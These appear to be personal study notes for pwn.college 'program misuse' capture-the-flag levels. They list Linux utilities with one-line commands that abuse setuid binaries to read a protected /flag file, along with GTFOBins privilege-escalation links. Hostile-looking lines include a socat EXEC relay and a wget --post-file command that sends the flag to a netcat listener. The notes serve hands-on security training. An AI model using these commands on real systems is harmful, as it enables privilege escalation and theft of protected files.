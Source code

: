 
`ldd <file path>` -  prints  the  shared objects (shared libraries) required by each program or shared object specified on  the command line. 

`dmesg | tail -n1` - Check kernel log #Buffer-overflow [[Buffer Overflow]]

`find -exec COMMAND` - Find can be used to find a file but also be used to exec a command
- `hacker@program-misuse~level3:/challenge/bin$ find /flag -exec cat \{\} \;

`strace` - prints out all system calls used by a binary

#privilege-escalation
`gzip` - https://gtfobins.github.io/gtfobins/gzip/
`bzip2` - https://gtfobins.github.io/gtfobins/bzip2/
`zip` - https://gtfobins.github.io/gtfobins/zip/
`tar` - https://gtfobins.github.io/gtfobins/tar/
`ar` - https://gtfobins.github.io/gtfobins/ar/
`cpio` - https://gtfobins.github.io/gtfobins/cpio/
`genisoimage` - https://gtfobins.github.io/gtfobins/genisoimage/ and https://g0ldf15h.github.io/posts/pwn_college/program_misuse/#23-genisoimage

`env` - list environment variables. Can be used for privilege escalation `env cat flag.txt`
`find` -find a file - Can be used for privilege escalation `find /flag -exec cat {} \;`
`make` - create a makefile - https://gtfobins.github.io/gtfobins/make/ and https://g0ldf15h.github.io/posts/pwn_college/program_misuse/#24-env
`nice` - do something with process scheduling - for privilege escalation - `nice -n 20 cat flag`
`timeout` - run a command with a time limit - `timeout 100 cat /flag`
`stdbuf` - run a command with modified buffering operations for standard streams ` stdbuf -e 1 cat /flag`
`watch` - execute a program periodically `watch -x cat /flag`
`setarch` - change the reported architecture in new program env `setarch -R cat /flag`
`socat` - multipurpose relay:

```
Open one terminal and start the netcat listener:
> nc -l 9999

In another terminal, use socat to connect to the listener and execute the command:
> socat TCP4:localhost:9999 EXEC:"cat /flag"
```

`awk` - text processing language - `awk '{ print $1 }' /flag`
`sed` - stream editor `sed -n '1p' /flag`
`ed` - standard text editor `ed /flag` > `p`
`chown` - Change owner `/challenge/bin/chown 1000 /flag`
`chmod` - Change permissions
`cp` - copy `cp --no-preserve=mode,ownership flag boink`
`mv` - move a file - https://hackmd.io/@jvX0z8tMSVy82TKMOd78zw/B1V06QEVo - This is basically renaming a file to the one that gets the sticky bit set for example /cat
`mv /usr/bin/cat /challenge/bin/mv` > `mv /flag`

`dmesg` - Display or control kernel ring buffer `/challenge/bin/dmesg -F /flag `
`date` - display the date `date -f /flag`
`wc` - print stuff `/challenge/bin/wc --files0-from=/flag`
`gcc` - compiler `gcc @/flag` | `-shared` compile as shared lib |
	
`as` - compiler `as @/flag`
`wget` - file transfer `nc -lp 8888 & wget --post-file=/flag http://127.0.0.1:8888 // Best solution`





scripting:
https://g0ldf15h.github.io/posts/pwn_college/program_misuse/#23-genisoimage